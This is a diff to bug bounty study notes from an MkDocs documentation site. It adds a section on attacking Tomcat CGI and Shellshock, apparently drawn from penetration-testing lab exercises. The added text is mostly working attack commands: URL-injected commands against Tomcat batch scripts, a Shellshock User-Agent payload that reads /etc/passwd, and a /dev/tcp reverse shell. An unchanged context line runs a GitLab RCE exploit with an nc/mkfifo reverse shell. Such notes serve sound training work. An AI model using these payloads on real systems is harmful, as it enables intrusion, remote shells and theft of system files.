

Before and after one commit to variable190/BugBounty, an MkDocs documentation site: the page built from docs/cwes-study-notes/attacking-common-applications.md, in a window 1280 px wide and 1400 px high, scrolled down 16564 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

````diff
--- a/docs/cwes-study-notes/attacking-common-applications.md
+++ b/docs/cwes-study-notes/attacking-common-applications.md
@@ -521,6 +521,41 @@
 ```
 - Metaploit module ```multi/http/tomcat_mgr_upload``` can automate this process
 
+### Attacking Tomcat CGI
+
+- Enumerate with nmap scan to identify Tomcat
+```bash
+nmap -p- -sC -Pn 10.129.120.127 --open
+```
+- Use ffuf to enumerate for scripts in the /cgi folder:
+```bash
+ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.120.127:8080/cgi/FUZZ.cmd
+ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.120.127:8080/cgi/FUZZ.bat
+```
+- Try navigating to found pages and appending ```?&dir``` or other commands: ```http://10.129.120.127:8080/cgi/welcome.bat?&dir```
+- ```?&set``` to retrieve a list of environment vairables
+- If PATH variable not set try hardcode path requests (URL encoded): ```http://10.129.120.127:8080/cgi/welcome.bat?&c%3A%5Cwindows%5Csystem32%5Cwhoami.exe```
+
+#### Attacking CGI Applications - Shellshock
+
+- CGI scripts and programs are kept in the ```/CGI-bin``` directory
+- Hunt for cgi scripts:
+```bash
+gobuster dir -u http://10.129.205.27/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x cgi
+```
+- Try curling any results:
+```bash
+curl -i http://10.129.204.231/cgi-bin/access.cgi
+```
+- Test for Shellshock vulnerability
+```bash
+curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://10.129.205.27/cgi-bin/access.cgi
+```
+- Set nc listener ```nc -lvnp 7777``` and use vulnerability to get a reverse shell:
+```bash
+curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.251/7777 0>&1' http://10.129.205.27/cgi-bin/access.cgi
+```
+
 ## [Jenkins](https://www.jenkins.io/)
 
 ### Discovery & Enumeration
@@ -669,3 +704,5 @@
 ```bash
 python3 gitlab_13_10_2_rce.py -t http://gitlab.inlanefreight.local:8081 -u Testface -p Testface -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.15 8443 >/tmp/f '
 ```
+
+## Attacking Thick Client Applications
````
